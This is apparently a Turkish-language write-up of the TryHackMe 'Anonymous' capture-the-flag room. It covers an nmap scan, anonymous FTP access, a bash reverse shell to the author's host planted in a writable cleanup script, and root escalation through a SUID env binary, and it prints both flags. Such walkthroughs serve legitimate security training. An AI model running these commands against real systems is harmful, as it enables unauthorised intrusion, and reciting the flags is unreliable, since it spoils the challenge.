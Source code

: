 ```yaml
---
title: Anonymous
date: 2024-03-29 16:00:12 
categories: [TryHackMe]
tags: [Medium,Linux,Permissions]  
image: https://images.squarespace-cdn.com/content/v1/5a459ea9692ebe7dcf9ca9ff/1572652826814-DBFUXPDNNQNXWGQ6MLG8/Screen+Shot+2019-11-02+at+10.59.45+am.png
---
```


Try to get the two flags!  Root the machine and prove your understanding of the fundamentals! This is a virtual machine meant for beginners. Acquiring both flags will require some basic knowledge of Linux and privilege escalation methods.

---

<a href="https://tryhackme.com/room/anonymous">Anonymous</a>

---

nmap çalıştıralım.

```
┌──(root㉿r3tr0)-[~]
└─# nmap -T5 -v -sV  10.10.20.162
```

nmap çıktısı:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-12 01:24 EST
NSE: Loaded 46 scripts for scanning.
Initiating Ping Scan at 01:24
Scanning 10.10.20.162 [4 ports]
Completed Ping Scan at 01:24, 0.11s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 01:24
Completed Parallel DNS resolution of 1 host. at 01:24, 0.00s elapsed
Initiating SYN Stealth Scan at 01:24
Scanning 10.10.20.162 (10.10.20.162) [1000 ports]
Discovered open port 21/tcp on 10.10.20.162
Discovered open port 445/tcp on 10.10.20.162
Discovered open port 22/tcp on 10.10.20.162
Discovered open port 139/tcp on 10.10.20.162
Completed SYN Stealth Scan at 01:24, 1.91s elapsed (1000 total ports)
Initiating Service scan at 01:24
Scanning 4 services on 10.10.20.162 (10.10.20.162)
Completed Service scan at 01:24, 11.28s elapsed (4 services on 1 host)
NSE: Script scanning 10.10.20.162.
Initiating NSE at 01:24
Completed NSE at 01:24, 0.00s elapsed
Initiating NSE at 01:24
Completed NSE at 01:24, 0.00s elapsed
Nmap scan report for 10.10.20.162 (10.10.20.162)
Host is up (0.10s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: ANONYMOUS; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.62 seconds
           Raw packets sent: 1005 (44.196KB) | Rcvd: 1002 (40.096KB)
```


Makineyi numaralandırın. Kaç port açık?
> 4

21 numaralı bağlantı noktasında hangi hizmet çalışıyor?
> ftp

139 ve 445 numaralı bağlantı noktalarında hangi hizmet çalışıyor?
> smb

ftp servisine anonymous olarak girmeyi deniyorum.


```
┌──(root㉿r3tr0)-[~]
└─# ftp 10.10.20.162
Connected to 10.10.20.162.
220 NamelessOne's FTP Server!
Name (10.10.20.162:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||8298|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 May 13  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||45177|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1118 Nov 12 06:29 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
ftp> get clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||30118|)
150 Opening BINARY mode data connection for clean.sh (314 bytes).
100% |****************************************************************|   314        2.62 MiB/s    00:00 ETA
226 Transfer complete.
314 bytes received in 00:00 (3.35 KiB/s)
ftp> get removed_files.log
local: removed_files.log remote: removed_files.log
229 Entering Extended Passive Mode (|||37011|)
150 Opening BINARY mode data connection for removed_files.log (1118 bytes).
100% |****************************************************************|  1118        6.42 MiB/s    00:00 ETA
226 Transfer complete.
1118 bytes received in 00:00 (11.97 KiB/s)
ftp> get to_do.txt
local: to_do.txt remote: to_do.txt
229 Entering Extended Passive Mode (|||48492|)
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
100% |****************************************************************|    68      205.59 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.72 KiB/s)
ftp> exit
221 Goodbye.
```

İndirdiğim dosyaları inceliyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a1.png?raw=true)

clean.sh dosyasının içerisine reverse shell kodu ekliyorum ve put komutuyla ftp servisine gönderiyorum.

```bash
sh -i >& /dev/tcp/10.14.61.127/1234 0>&1
```

netcat çalıştırmayı unutmayalım.

````bash
nc -nvlp 1234
````

Kısa bir süre bekledikten sonra makineye erişim sağlıyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a2.png?raw=true)

Shellimizi stabil hale getirelim:

````python
python3 -c 'import pty; pty.spawn("/bin/bash")'
````

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a3.png?raw=true)

user flag:
>90d6f992585815ff991e68748c414740

Yetkimizi yükseltelim ve root bayrağına ulaşalım.


`find / -perm -04000 -type f 2>/dev/null` komutu ile SUID dosyalarını inceliyorum.


```
namelessone@anonymous:~$ find / -perm -04000 -type f 2>/dev/null
find / -perm -04000 -type f 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
```

Buradaki /usr/bin/env dikkatimi çekiyor ve gtfobins sitesine gidip yetki yükseltip yükseltemeyeceğime bakıyorum.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a4.png?raw=true)


`/usr/bin/env /bin/sh -p` komutu ile yetkimizi yükseltelim.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Anonymous/images/a5.png?raw=true)

root flag:
>4d930091c31a622a7ed10f27999af363

---

![fsoc](/images/fsoc.gif)
